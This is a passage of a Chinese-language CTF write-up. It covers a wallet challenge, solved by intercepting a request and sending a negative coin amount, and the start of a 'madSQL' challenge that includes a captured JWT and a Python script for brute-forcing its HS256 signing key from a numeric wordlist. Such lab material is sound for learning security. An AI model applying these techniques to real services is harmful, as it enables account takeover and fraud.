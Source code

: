 访问/robots.txt，服务器钱包详情在/waaaalllllleetttt，得到远程地址，并且远程钱包余额为100，需要101才能够/buyFlag

所以尝试向远程钱包发送1个，这自然是不被允许的的，本地钱包余额不足

故用burpsuite拦截，从远程钱包获取-1个coin，成功，查看服务器钱包余额，变成101了

之后从远程钱包分别获取50 51（有单次限额），buyFlag

![wallet](imgs/wallet.png)

``` 
SSHCTF{3ff7b1d1-08e5-49c4-a02a-1dc274bb031c}
```

### madSQL

注意到hint: jwt first

正常登录(Guest)用burpsuite获取到随便一个jwt

我得到的是eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZGVudGl0eSI6Imd1ZXN0IiwiZXhwIjoxNzI0NjE4NTg3fQ.Ce96_mDr2FkPVeN51Z-rNTrFFUzImMP1el_yIINgFJg

F12发现try brute force的hint，故用python暴力破解

先用[pydictor](https://github.com/LandGrey/pydictor)生成了1-6位数字密码nums.txt（这题不用也行），然后执行python程序

```python
import jwt

def runblasting(path, jwt_str):
    alg = 'HS256'
    with open(path, 'rb') as f:
        for line in f:
            key_ = line.strip()
            print('use' + key_.decode('utf-8'))
            try:
                jwt.decode(jwt_str, verify=True, key=key_, algorithms=alg)
                print('found key! --> ' + key_.decode('utf-8'))
                break
            except:
                continue
            else:
                print('key not found!')
# nums.txt : 1-6位数字
runblasting('nums.txt', 'eyJ ... FJg')
```
